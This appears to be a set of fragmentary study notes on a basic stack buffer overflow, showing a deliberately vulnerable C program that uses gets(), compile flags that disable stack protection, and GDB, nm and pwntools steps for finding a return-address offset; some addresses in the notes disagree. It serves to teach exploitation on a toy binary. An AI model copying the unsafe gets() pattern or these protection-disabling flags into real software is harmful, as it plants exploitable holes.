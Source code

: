 
**BASIC**




**Exploit Example: Overwriting the Return Address**




Filename: exploit_me.c

```c
#include <stdio.h>
#include <string.h>

void secret_function() {
    printf("🔥 You hacked the program! 🔥\n");
}

int main() {
    char buffer[10];  // Small buffer
    
    printf("Enter a string: ");
    gets(buffer);  // ❌ Vulnerable function (no size check)
    
    printf("You entered: %s\n", buffer);
    return 0;
}

```


```
gcc -fno-stack-protector -z execstack exploit_me.c -o exploit_me
gdb ./exploit_me
```


**Inside GDB:**


```
(gdb) disassemble secret_function


```




gdb ./exploit_me


break main
run
info functions
p &secret_function


3. Check memory mappings

(gdb) info proc mappings



(base) cnc@debian:~/Desktop/BUILD_FILES/c$ nm ./exploit_me | grep secret_function
0000000000001159 T secret_function
(base) cnc@debian:~/Desktop/BUILD_FILES/c$ 




(base) cnc@debian:~/Desktop/BUILD_FILES/c$ printf "0x%X\n" $((0x555555554000 + 0x1159))
0x555555555159
(base) cnc@debian:~/Desktop/BUILD_FILES/c$ 






(gdb) info registers rip
rip            0x7ffff7df3200      0x7ffff7df3200 <__libc_start_call_main+48>
Missing register name
(gdb) 






from pwn import *
print(cyclic_find(0x7ffff7df3200, n=8))  # Use the actual RIP value from GDB




>>> print(cyclic_find(0x6161616161616169, n=8))  # 64-bit binary (8-byte)
64
>>> 




(No debugging symbols found in ./exploit_me)
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000001000  _init
0x0000000000001030  puts@plt
0x0000000000001040  printf@plt
0x0000000000001050  gets@plt
0x0000000000001060  exit@plt
0x0000000000001070  __cxa_finalize@plt
0x0000000000001080  _start
0x00000000000010b0  deregister_tm_clones
0x00000000000010e0  register_tm_clones
0x0000000000001120  __do_global_dtors_aux
0x0000000000001160  frame_dummy
0x0000000000001169  secret_function
0x0000000000001186  main
0x00000000000011d8  _fini


(gdb) disas secret_function
Dump of assembler code for function secret_function:
   0x0000000000001169 <+0>: push   %rbp
   0x000000000000116a <+1>: mov    %rsp,%rbp
   0x000000000000116d <+4>: lea    0xe94(%rip),%rax        # 0x2008
   0x0000000000001174 <+11>:    mov    %rax,%rdi
   0x0000000000001177 <+14>:    call   0x1030 <puts@plt>
   0x000000000000117c <+19>:    mov    $0x0,%edi
   0x0000000000001181 <+24>:    call   0x1060 <exit@plt>
End of assembler dump.
